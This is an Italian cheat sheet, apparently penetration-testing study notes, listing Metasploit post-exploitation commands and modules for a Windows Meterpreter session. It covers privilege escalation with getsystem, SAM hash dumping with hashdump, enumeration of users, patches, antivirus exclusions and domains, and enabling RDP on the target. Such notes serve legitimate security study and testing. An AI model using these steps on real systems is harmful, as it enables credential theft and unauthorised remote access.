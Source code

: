 # Metasploit Post Exploitation Modules
Metasploit Framework offre dei moduli in grado di eseguire numerose operazioni di post exploitations per poter enumerare quante piú informazioni su un target dandoci la possibilità di eseguire dei privilege escalation dandoci il via libera dentro la macchina target.

Dopo aver ottenuto una sessione (o shell) meterpeter su un target Windows, possiamo eseguire alcuni comandi utili
```bash
getsystem         # tenta di elevare automaticamente i privilegi
screenshot        # esegue uno screenshot della macchina target
hashdump          # estre il contenuto del database SAM
show_mount        # visualizza la situazione dello storage
```

---

## Moduli post exploitation utili
Ecco alcuni moduli da poter usare dopo aver ottenuto una sessione meterpeter su un target
```bash
use post/windows/manage/migrate                 # per migrare una sessione su un altro processo
use post/windows/gather/win_privs               # per elencare i privilegi dell'utente attuale
post/windows/gather/enum_logged_on_users        # per elencare tutti gli utenti attualmente connessi al target
use post/windows/gather/checkvm                 # per vedere se il target é in realtá una macchina virtuale
use post/windows/gather/enum_applications       # per visualizzare le applicazioni  installate sul target
post/windows/gather/enum_av_excluded            # per enumerare la soluzione antivirus
use post/windows/gather/enum_computers          # per enumerare il dominio di cui fa parte il target
post/windows/gather/enum_patches                # per enumerare le patch sul target (potresti dover migrare in svchost.exe)
# l'equivalente di questo modulo é systeminfo su una shell sul target
use post/windows/gather/enum_shares             # per enumerare le cartelle condivise nel target
post/windows/manage/enable_rdp                  # per abilitare RDP sul target  
```
> Tutte queste informazioni andranno a finire dentro il database di metasploit e saranno visualizzabili con il comando `loot` e salvate dentro la directory `/root/.msf4/loot`
